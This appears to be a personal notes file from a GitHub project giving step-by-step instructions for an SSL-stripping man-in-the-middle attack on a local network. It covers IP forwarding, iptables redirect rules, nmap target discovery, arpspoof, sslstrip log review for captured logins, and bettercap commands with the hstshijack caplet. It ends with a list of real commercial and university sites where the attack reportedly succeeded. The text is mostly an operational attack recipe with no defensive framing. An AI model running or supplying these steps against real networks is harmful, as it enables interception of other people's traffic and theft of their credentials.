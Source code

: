 #### SSLStripping Process
1.  Enable ip_fowarding so the pc can route traffic
ip_forwarding -- sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
2. ip rerouting -- iptables...
3.  gateway ip address -- route -n
4. Scan target network to find a specific computer
5. nmap -sP 192.168.1.0/24
6. Review scan results and choose a target
7. Arpspoof to redirect the computers http traffic to our computer
7. Whilst that runs in the background start sslstrip
8. Login via the targets computer into some site
9. Review sslstrip log file  -- cat sslstrip.log
iptables affects the host where the command is executed. It modifies how that machine handles incoming and outgoing packets.

#### Quick overview of networking tools
iptables -t nat -A PREROUTING -p tcp --destination-port n - j REDIRECT --to-port N
iptables — modifies the NAT (Network Address Translation) table to redirect incoming TCP traffic on port port  n (in our case 80) over to to port N. 
-A PREROUTING — appends a rule to the prerouting chain, which processes packets before they are routed
-p tcp — specifies that the rule applies to tcp packets
-j redirect — specifies that packets should be redirected

#### arpspoof
arpspoof works at a low level, manipulating the ARP table entries of devices on the local network to redirect traffic without altering firewall rules or packet processing at higher layers.

manipulates the ARP tables of devices on the local network to make them believe that your machine's MAC address corresponds to another device's IP address (like the router or another host)

#### net.probe
net.probe enables network probing within bettercap, allowing the tool to discover devices on the network by sending arp requests and listening for responses

#### net.sniff
net.sniff activates packet sniffing, so bettercap will start capturing and analyzing the traffic flowing through the network

#### Bettercap Steps:
0. sudo bettercap -iface eth0
1. help
2. caplets.show
3. set http.proxy.sslstrip true
4. hstshijack/hstshijack
5. help
6. net.probe on
7. net.sniff on
8. arp.spoof on


#### Working Sites (in process)
**Sites that worked:**
alibaba
foxnews
ign.com
speedtest.com

**Institutional Sites:**
carleton.edu
mit.edu
washington.edu
and most likely more…
